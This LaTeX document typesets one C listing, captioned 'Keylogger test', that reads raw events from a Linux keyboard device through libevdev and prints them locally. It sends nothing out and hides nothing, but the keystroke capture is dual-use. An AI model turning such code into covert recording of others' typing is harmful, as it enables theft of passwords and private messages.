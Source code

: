\documentclass[10pt,a4paper,notitlepage ]{article}
\begin{document}
	
	\begin{figure}
	\begin{lstlisting}[language=C, frame=single, caption={Keylogger test}]
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <errno.h>
#include <linux/input.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <libevdev/libevdev.h>
#include <libevdev/libevdev-uinput.h>

int main(){
	
	struct libevdev *dev = NULL;
	int fd;
	int rc = 1;
	
	// keyboard : /dev/input/event3
	//fd : file descriptor
	fd = open("/dev/input/event3", O_RDONLY|O_NONBLOCK);
	// rc : return code
	// modifies *dev such that it is hooked to the /dev/input file
	rc = libevdev_new_from_fd(fd, &dev);
	if (rc < 0) {
		//error happenned
		fprintf(stderr, "Failed to init libevdev (%s)\n", strerror(-rc));
		exit(1);
	}
	printf("Input device name: \"%s\"\n", libevdev_get_name(dev));
	printf("Input device ID: bus %#x vendor %#x product %#x\n",
	libevdev_get_id_bustype(dev),
	libevdev_get_id_vendor(dev),
	libevdev_get_id_product(dev));
	
	do {
		struct input_event ev;
		rc = libevdev_next_event(dev, LIBEVDEV_READ_FLAG_NORMAL, &ev);
		if (rc == 0)
		printf("Event: %s %s %d\n",
		libevdev_event_type_get_name(ev.type),
		libevdev_event_code_get_name(ev.type, ev.code),
		ev.value);
	} while (rc == 1 || rc == 0 || rc == -EAGAIN);
	0;
}
	\end{lstlisting}
	\end{figure}
\end{document}
